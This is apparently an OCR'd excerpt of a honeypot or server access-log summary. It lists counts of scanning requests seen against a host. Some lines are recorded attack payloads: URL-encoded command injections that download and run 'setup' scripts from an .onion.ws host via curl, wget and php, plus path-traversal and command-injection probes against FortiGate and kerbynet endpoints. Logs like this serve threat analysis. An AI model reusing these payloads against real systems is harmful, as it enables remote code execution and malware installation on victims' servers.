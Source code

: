 | 2 | GET /stalker_portal/c/version.js HTTP/1.1 | |
| 2 | GET /stalker_portal/c/ HTTP/1.1 | |
| 2 | GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1 | |
| 2 | GET /c/version.js HTTP/1.1 | |  
| 2 | GET /client_area/ HTTP/1.1 | |  
| 2 | GET /bag2 HTTP/1.1 | |  
| 2 | GET /ads.txt HTTP/1.1 | |  
| 2 | GET /0bef HTTP/1.0 | |  
| 1 | POST /ui/vropspluginui/rest/services/uploadova HTTP/1.1 | |  
| 1 | POST /sys_config_valid.xgi?exeshell=%60php%20-r%20%22file_put_contents%28%5C%22setup%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%5C%22%29%29%3B%22%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%3Bphp%20-r%20%22file_put_contents%28%5C%22setup.py%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%5C%22%29%29%3B%22%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%20setup%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%20setup.py%3Bchmod%20777%20setup.py%3Bchmod%20777%20setup%3Bpython2%20setup.py%7C%7Cpython2.7%20setup.py%7C%7Cpython%20setup.py%7C%7C.%2Fsetup.py%7C%7C.%2Fsetup%60 HTTP/1.1 | |  
| 1 | POST /paypal/transparent/requestSecureToken/ HTTP/1.1 | |  
| 1 | POST /nrdh.php?cmd=%60php%20-r%20%22file_put_contents%28%5C%22setup%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%5C%22%29%29%3B%22%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%3Bphp%20-r%20%22file_put_contents%28%5C%22setup.py%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%5C%22%29%29%3B%22%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%20setup%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%20setup.py%3Bchmod%20777%20setup.py%3Bchmod%20777%20setup%3Bpython2%20setup.py%7C%7Cpython2.7%20setup.py%7C%7Cpython%20setup.py%7C%7C.%2Fsetup.py%7C%7C.%2Fsetup%60 HTTP/1.1 | |  
| 1 | POST /include/makecvs.php?Event=%60php%20-r%20%22file_put_contents%28%5C%22setup%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%5C%22%29%29%3B%22%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%3Bcurl%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%3Bphp%20-r%20%22file_put_contents%28%5C%22setup.py%5C%22%2C%20file_get_contents%28%5C%22http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%5C%22%29%29%3B%22%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup%20-O%20setup%3Bwget%20http%3A%2F%2Fbp65pce2vsk7wpvy2fyehel25ovw4v7nve3lknwzta7gtiuy6jm7l4yd.onion.ws%2Fsetup.py%20-O%20setup.py%3Bchmod%20777%20setup.py%3Bchmod%20777%20setup%3Bpython2%20setup.py%7C%7Cpython2.7%20setup.py%7C%7Cpython%20setup.py%7C%7C.%2Fsetup.py%7C%7C.%2Fsetup%60 HTTP/1.1 | |  
| 1 | POST /cgi-bin/printbook HTTP/1.1 | |  
| 1 | POST /api/jsonws/expandocolumn/update-column HTTP/1.1 | |  
| 1 | lv[endof] | |  
| 1 | l | |  
| 1 | GET /wp/wp-login.php HTTP/1.1 | |  
| 1 | GET /wordpress/wp-login.php HTTP/1.1 | |  
| 1 | GET /manager/text/list HTTP/1.1 | |  
| 1 | GET /manager/html HTTP/1.1 | |  
| 1 | GET /login.html HTTP/1.1 | |  
| 1 | GET http://5[.]188[.]210[.]227/echo.php HTTP/1.1 | |  
| 1 | GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0Aid%0A' HTTP/1.1 | |  
| 1 | GET /cgi-bin/kerbynet?Action=Render&Object=StartSession HTTP/1.1 | |  
| 1 | GET /cgi-bin/config.exp HTTP/1.1 | |   
| 1 | GET /blog/wp-login.php HTTP/1.1 | |  
| 1 | 8ǗyUe&5 | |  

## ログ  
